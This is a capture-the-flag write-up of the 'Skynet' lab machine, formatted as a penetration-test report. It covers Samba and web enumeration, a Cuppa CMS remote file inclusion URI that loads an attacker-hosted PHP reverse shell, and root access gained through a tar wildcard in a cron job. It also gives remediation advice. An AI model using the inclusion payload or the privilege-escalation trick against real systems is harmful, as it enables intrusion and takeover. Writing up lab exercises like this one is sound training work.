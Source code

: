 # Skynet

## Summary

**Vulnerability Exploited:** Cuppa CMS Remote File Inclusion

**Vulnerability Explanation:** An attacker can host malicious code on their own web server and execute it on a server using Cuppa CMS with a specially crafted URI. This exploit does not require authentication.

**Privilege Escalation Vulnerability:** Cron backup script executes tar with wildcard arguments and root privileges.

**Vulnerability Fix****:** No fix is currently known for Cuppa CMS Remote File Inclusion; it may be advisable to switch to a different CMS. Although changing the backup script to exclude wildcard arguments would close one avenue for privilege escalation, several kernel exploits also work against this target. Always keep software, including the operating system, up-to-date. Do not store sensitive files such as logs on insecure shares. If possible, do not send password resets in plaintext. If this is not avoidable, users should change their passwords immediately after the reset and remove the reset emails from their inboxes.

## Penetration

We begin with a port scan of the target host using nmap.

![](screenshots/nmap-tcp.png)

We enumerate Samba shares and grab whatever files we can.

![](screenshots/samba-list.png)

![](screenshots/smbget-anonymous.png)

We are not able to access the milesdyson share (yet), but we grab some important files from the anonymous share. The file log1.txt conatins a list of what appears to be passwords, although it is not yet obvious what they might open.

Now we begin enumerating web content.

![](screenshots/homepage.png)

![](screenshots/gobuster.png)

Gobuster finds several directories, most of which are password protected. However, we are able to access /squirrelmail.

![](screenshots/squirrelmail-login.png)

We are able to sign in to SquirrelMail with the credentials milesdyson:cyborg007haloterminator. (The password was the first in the logfile from the anonymous share.)

![](screenshots/inbox.png)

![](screenshots/samba-password-reset.png)

In milesdyson's inbox, we find a password reset for his Samba account in plain text. We are able to use the password to access the milesdyson share.

![](screenshots/smb-milesdyson.png)

We get notes\important.txt.

![](screenshots/important.png)

The note reveals a secret internal web directory with a CMS console.

![](screenshots/miles-dyson-personal-page.png)

![](screenshots/gobuster-internal.png)

Gobuster finds the Cuppa CMS admin console at /45kra24zxs28v3yd/administrator.

![](screenshots/searchsploit-cuppa.png)

Cuppa has a known remote file inclusion vulnerability. We can host a php reverse shell on our own web server and launch it on the victim using a special URI.

![](screenshots/host-reverse-shell.png)

**http://\<victim ip\>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://\<host ip\>/shell.php?**

![](screenshots/www-proof.png)

With this level of access, we can access some of milesdyson's files.

![](screenshots/milesdyson-flag.png)

We now begin looking for privilege escalation vulnerabilities. We find an interesting cron job that runs every minute.

![](screenshots/backup.png)

Unfortunately, the backup.sh script has very strong permissions, so we can't edit it directly. However, the fact that it passes a wildcard argument ("\*") to tar is itself a vulnerability. Essentially, tar can accept flags as arguments to execute arbitrary code while it is compressing or decompressing files. Since tar is passed a wildcard in this script, we can write spurious files to the /var/www/html that tar will mistake for these flags. For our first attempt, we attempt to get tar (with root privileges) to grant all users the right to use sudo with no password.

![](screenshots/privesc.png)

Unfortunately, this does not work as expected. We try again to add a new root user minus:Pass123! by editing /etc/passwd.

![](screenshots/privesc2.png)

This time, we are successful and gain root privileges.

![](screenshots/root-proof.png)